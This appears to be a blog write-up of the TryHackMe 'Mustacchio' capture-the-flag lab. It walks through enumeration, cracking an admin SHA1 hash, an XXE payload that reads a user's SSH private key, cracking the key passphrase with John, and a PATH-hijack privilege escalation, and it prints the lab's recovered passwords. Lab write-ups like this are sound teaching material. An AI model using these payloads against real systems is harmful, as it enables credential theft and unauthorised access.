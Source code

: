 ```yaml
---
title: TryHackMe - Mustacchio
layout: post
categories:
- TryHackMe
tag:
- xxe,
- privesc,
- enumeraton
image: "/assets/img/mustacchio.png"
image_alt: mustacchio
---
```


Easy boot2root Machine. Let's start.

<br>

## 1. Mustacchio 

Deploy and compromise the machine!

<br>

### 1.1 User Flag?

_Hint: Check the source of the page._

Let's do a `nmap` scan first.

```
$ nmap -sSV 10.10.80.114
```

![nmap](/assets/img/tryhackme/mustacchio/nmap.png)

We found three open ports. These are `22/tcp SSH, 80/tcp HTTP, and 8765/tcp HTTP`.

First, let's visit the website running on port 80/tcp and see what we can find.
Five different pages appear. These are home, about, gallery, blog, and contact. 

![home](/assets/img/tryhackme/mustacchio/home.png)

I am checking the links and source pages that can be visited on the website, but I could not find anything remarkable.
 
I decided to do a directory scan with Gobuster. But first, let's visit the website running on 8765/tcp port.

![admin](/assets/img/tryhackme/mustacchio/admin.png)

We found an admin panel, it will help us. Anyway, let's go back to port 80/tcp and do a gobuster scan.

![gobuster](/assets/img/tryhackme/mustacchio/gobuster.png)

The custom directory looks interesting. When we go inside, we find a file called `user.bak`, which is interesting.

![userbak](/assets/img/tryhackme/mustacchio/userbak.png)

Let's see what's in it.

![admincode](/assets/img/tryhackme/mustacchio/admincode.png)

**`admin : 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b`**

I guess this is the login information to the admin panel but the password seems to be encrypted. 
I check with the hash-identifier. 

![codeid](/assets/img/tryhackme/mustacchio/codeid.png)

Most likely admin's password is encrypted using `SHA1`.

You can decrypt online from any website by searching for "SHA1 decrypt" in the browser. I used the following website. [Here](https://md5decrypt.net/en/Sha1/#answer)

![decode](/assets/img/tryhackme/mustacchio/decode.png)

We found the password.

**`admin : bulldog19`**

Now let's go to the admin panel and log in.
We logged in.

![comment](/assets/img/tryhackme/mustacchio/comment.png)

I've tried a few command injections into the area that comes up, but it just seems like a gimmick.

I'm checking the source of the page and we're getting some important information here. 
- We explore the /auth/dontforget.bak file. 

- ![dontforget](/assets/img/tryhackme/mustacchio/dontforget.png)

- We discover that Barry is now able to log into SSH.

- ![barryssh](/assets/img/tryhackme/mustacchio/barryssh.png) 

Let's first check the dontforget.bak file.

Download directly from here [http://10.10.80.114:8765/auth/dontforget.bak](http://10.10.80.114:8765/auth/dontforget.bak). 

Something like this welcomes us.

![dontforgetbakin](/assets/img/tryhackme/mustacchio/dontforgetbakin.png)

But there is one important thing about this code, it's not a complete waste of time. 
This code is an XML code, if we copy this code and paste it into the comment section in the admin panel, we get the following result.

![joe](/assets/img/tryhackme/mustacchio/joe.png)

I mean, we need to write xml code in this comment section. So I am trying to do command injection using xml.

I tried the commands [here](https://github.com/payloadbox/xxe-injection-payload-list) but no result.

But I realized something, I was constantly getting this result.

![empty](/assets/img/tryhackme/mustacchio/empty.png)

Here I understood that I should use the tags in dontforget.bak.

First I decided to give it a try with the code below.

![try](/assets/img/tryhackme/mustacchio/try.png)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "XML Injection"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>&example;</author>
<com>Test paragraph</com>
</comment>
```

![tryout](/assets/img/tryhackme/mustacchio/tryout.png)

It worked as you can see. Now we can access the information inside the system. 

We got the message that Barry can now log in to ssh, if we go to Barry's directory and get the rsa key, we can log in too. 

I run the following code in the admin panel to get the id_rsa key.

![commentinssh](/assets/img/tryhackme/mustacchio/commentinssh.png)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM 'file:////home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Joe</author>
<com>&example;</com>
</comment>
```

![outrsa](/assets/img/tryhackme/mustacchio/outrsa.png)

Yes, we have reached the RSA key, now we need to copy and edit this key. I tried without editing and it doesn't work :D.
Make sure there are no spaces at the end of the lines. Each one should be a separate line.
It should look like this when you edit it. 

![edit](/assets/img/tryhackme/mustacchio/edit.png)

Now we need to crack this id_rsa for barry's ssh password.

```
$ ssh2john id_rsa > id_rsa.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![crack](/assets/img/tryhackme/mustacchio/crack.png)

**`barry : urieljames`**

Now we can log in ssh.

```
$ chmod 600 id_rsa
$ ssh -i id_rsa barry@10.10.80.114
```

![barryin](/assets/img/tryhackme/mustacchio/barryin.png)

And we are inside.

Now we can access the user flag.

![user-flag](/assets/img/tryhackme/mustacchio/user-flag.png)

<br>

### 1.2 Root Flag?

_Hint: SUID?_

We proceed with the clue that the question gives us. First, we will run the following code.

```
$ find / -type f -perm -04000 -ls 2>/dev/null
``` 

![suid](/assets/img/tryhackme/mustacchio/suid.png)

I couldn't find anything remarkable and started navigating the system. 

I discovered the joe directory next to barry, and if you remember a file like `live_log` in it, we also saw this file as a result of the code we wrote above.

![ls](/assets/img/tryhackme/mustacchio/ls.png)

I'm looking at the strings content of this log file and we find something remarkable here. The tail command was used.

```
$strings live_log
```

![strings](/assets/img/tryhackme/mustacchio/strings.png)

I've been doing some research on how to escalate using this and I find that it's as follows.

![privesc](/assets/img/tryhackme/mustacchio/privesc.png)

```
$ echo "/bin/sh" > tail
$ chmod 777 tail
$ export PATH=/tmp.$PATH
$ cd /home/joe/
$ ./live_log
```

And we are inside. To be frank, I don't fully understand the logic of raising authority, I'll go over it a little later.
But now we can get to root.txt.

![root-flag](/assets/img/tryhackme/mustacchio/root-flag.png)

<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
